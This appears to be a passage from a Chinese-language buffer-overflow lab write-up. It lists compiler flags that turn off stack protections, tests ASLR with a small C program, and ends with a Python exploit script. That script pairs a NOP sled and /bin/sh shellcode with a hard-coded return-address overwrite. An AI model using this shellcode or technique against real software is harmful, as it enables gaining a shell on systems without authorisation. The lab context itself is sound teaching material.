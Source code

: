 `-z execstack` 关闭栈上不可执行

`-fno-stack-protector` 关闭StackGuard

![image.png](https://i.loli.net/2020/11/17/iaEC1vrTBU8Ytk6.png)

5.测试ASLR

```c
#include<stdio.h>
void func(int* a1)
{
    printf(":: a1's address is 0x%x \n",(unsigned int) &a1);
}

int main()
{
    int x=3;
    func(&x);
    return 1;
}
```

![image.png](https://i.loli.net/2020/11/17/WTJh47PKxbGRN2q.png)

地址未发生变化

6.gdb调试下断点

![image.png](https://i.loli.net/2020/11/17/bO2F8In5LD46mAl.png)

![image.png](https://i.loli.net/2020/11/17/RLASdxNz6w4GiKg.png)

7.exploit

```python
#!/usr/bin/python3
import sys

shellcode= (
   "\x31\xc0"    # xorl    %eax,%eax
   "\x50"        # pushl   %eax
   "\x68""//sh"  # pushl   $0x68732f2f
   "\x68""/bin"  # pushl   $0x6e69622f
   "\x89\xe3"    # movl    %esp,%ebx
   "\x50"        # pushl   %eax
   "\x53"        # pushl   %ebx
   "\x89\xe1"    # movl    %esp,%ecx
   "\x99"        # cdq
   "\xb0\x0b"    # movb    $0x0b,%al
   "\xcd\x80"    # int     $0x80
).encode('latin-1')


# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

# Put the shellcode at the end
start = 517 - len(shellcode) 
content[start:] = shellcode

##################################################################
ret    = 0xffffdba0+100 # replace 0xAABBCCDD with the correct value
offset = 116            # replace 0 with the correct value

content[offset:offset + 4] = (ret).to_bytes(4,byteorder='little') 
##################################################################
```